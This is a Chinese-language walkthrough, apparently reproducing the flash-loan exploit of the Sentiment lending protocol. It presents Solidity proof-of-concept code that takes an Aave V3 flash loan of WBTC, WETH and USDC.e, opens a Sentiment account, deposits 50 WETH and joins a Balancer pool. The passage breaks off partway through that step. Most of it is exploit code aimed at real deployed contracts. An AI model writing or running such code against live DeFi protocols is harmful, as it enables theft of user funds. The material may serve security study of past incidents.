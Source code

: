 

## 具体写POC逻辑

### aave闪电贷

```solidity
    function testExploit() public {
        address[] memory assets = new address[](3);
        assets[0] = address(WBTC);
        assets[1] = address(WETH);
        assets[2] = address(USDC_e);
        uint[] memory amounts = new uint[](3);
        amounts[0] = 606e8;
//        amounts[1] = 10050e18;
        amounts[1] = 10_050.1e18;
        amounts[2] = 18_000_000e6;
        uint[] memory interestRateModes = new uint[](3);
        interestRateModes[0]=0;
        interestRateModes[1]=0;
        interestRateModes[2]=0;
        bytes memory params = new bytes(0);
        console.log('before flashloan');
        aaveV3Pool.flashLoan(address(this), assets, amounts, interestRateModes,address(this), abi.encode(''), 0);
        finalInterest('after flashloan');
    }
```

### step1 通过Sentiment，到Balancer的`pair(B-33WETH-33WBTC-33USDC)`，存入50个ETH。



下面的代码很长，主要是参数多，没有难度。值得细说的是data是怎么确定的？
不明白可以看 **补充说明**。



知道了如何解码 两种data，写下面代码就没有难度了。

```solidity
    address accountAddress;
    function accountManagerExecJoinPool() internal{
        accountAddress = accountManager.openAccount(address(this));
        riskEngine = IRiskEngine(accountManager.riskEngine());
        account = Account(accountAddress);
        oracle = Oracle(riskEngine.oracle());

        WETH.approve(address(accountManager), 50e18);

        accountManager.deposit(accountAddress, address(WETH), 50e18);

        accountManager.approve(accountAddress, address(WETH), address(balanceVault), 50e18);

        bytes32 poolId = B_33WETH_33WBTC_33USDC_POOL.getPoolId();
        address sender = accountAddress;
        address recipient = accountAddress;
        address[] memory assets = new address[](3);
        assets[0] = address(WBTC);
        assets[1] = address(WETH);
        assets[2] = address(USDC_e);

        uint[] memory maxAmountsIn = new uint[](3);
        maxAmountsIn[0]=0;
        maxAmountsIn[1]=50e18;
        maxAmountsIn[2]=0;
```